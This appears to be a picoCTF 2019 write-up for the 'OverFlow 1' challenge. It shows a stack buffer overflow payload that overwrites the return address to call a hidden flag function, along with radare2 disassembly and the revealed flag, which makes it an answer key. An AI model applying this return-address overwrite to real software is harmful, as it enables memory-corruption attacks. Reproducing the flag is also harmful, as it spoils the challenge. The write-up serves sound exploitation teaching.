 # OverFlow 1
**Points:** 150

## Category
Binary Exploitation

## Task
You beat the first overflow challenge. Now overflow the buffer and change the return address to the flag function in this [program](https://2019shell1.picoctf.com/static/465d78dd370e4a0a6773f60a3146adbc/vuln)? You can find it in /problems/overflow-1_4_6e02703f87bc36775cc64de920dfcf5a on the shell server. [Source](https://2019shell1.picoctf.com/static/465d78dd370e4a0a6773f60a3146adbc/vuln.c).

# Solution
When we run the program, we are notified of the return address. And when we overflow the input with enough characters, the return address gets changed accordingly.
```console
r00t@linux:~$ python -c "print('\x41'*80)" | ./vuln
Give me a string and lets see what happens: 
Woah, were jumping to 0x41414141 !
Segmentation fault (core dumped)
```
and upon looking at the source code, we find that there's a different function to print the flag which isn't being called from `main`. So using `radare2` we can get the address of the _flag_ function, which is `0x080485e6` and the offset to enter the address can be determined with:
```assembly
sym.flag();
    ; var int32_t var_4ch @ ebp-0x4c
    ; var int32_t var_ch @ ebp-0xc
    ; var int32_t var_4h @ ebp-0x4
    0x080485e6     55      push ebp       
    ...
```
There's an offset of _0x4c_ or 76 in decimal. Therefore to overflow it we will...

```console
username@pico-2019-shell1:~$ python -c "print('A'*76 + '\xe6\x85\x04\x08')" | ./vuln
Give me a string and lets see what happens: 
Woah, were jumping to 0x80485e6 !
picoCTF{n0w_w3r3_ChaNg1ng_r3tURn5fe1ff3d8}Segmentation fault (core dumped)
```

# Flag
> picoCTF{n0w_w3r3_ChaNg1ng_r3tURn5fe1ff3d8}
